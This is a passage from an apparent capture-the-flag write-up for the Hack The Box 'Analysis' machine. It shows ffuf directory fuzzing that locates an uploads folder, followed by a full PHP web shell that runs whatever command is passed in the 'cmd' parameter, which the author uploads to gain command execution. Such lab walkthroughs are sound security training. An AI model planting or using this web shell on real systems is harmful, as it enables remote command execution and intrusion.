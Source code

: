 As we can see from the response, the file was uploaded. Now, we need to find the endpoint where the uploads are stored. Let's use `ffuf` to find it:

```bash
 $ ffuf -u http://internal.analysis.htb/dashboard/FUZZ -w usr/share/wordlists/dirbuster/directory-list-1.0.txt -s
img
uploads
```

As we can see, it is located at `/dashboard/uploads`. Accessing the page under the name of the file we uploaded:

<img src="../figs/analysis10.png" alt="uploaded php page">

Since this is a Windows machine, let's first upload a webshell and get a reverse shell from it. For that, we will use the following PHP script:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

After uploading it under the name of concha.php and accessing it, we find the following page:

<img src="../figs/analysis11.png" alt="web-shell">
